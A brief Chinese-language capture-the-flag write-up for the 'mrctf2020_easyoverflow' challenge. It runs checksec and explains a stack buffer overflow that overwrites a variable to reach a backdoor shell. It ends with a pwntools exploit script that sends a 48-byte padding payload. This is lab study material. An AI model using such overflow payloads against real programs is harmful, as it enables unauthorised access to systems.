




- 控制栈上参数
- 程序控制流

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_easyoverflow
[*] '/home/bamuwe/mrctf2020_easyoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1. 保护全开,考虑利用程序自身的代码

2. 程序中存在后门,理解程序流

   关键在于`check`函数中,只要`a1(v5) == fake_flag`就可以得到`shell`

3. 通过ida可知`v5`在栈上的位置和`fake_flag`的内容

   

   

4. 构造`payload`通过填充`v4`的空间溢出到`v5`进而控制`v5`变量的内容

```python
from pwn import *
io = process('./mrctf2020_easyoverflow')
#io = gdb.debug('./mrctf2020_easyoverflow')
payload = b'A'*48+b'n0t_r3@11y_f1@g\x00'
io.sendline(payload)
io.interactive()
```

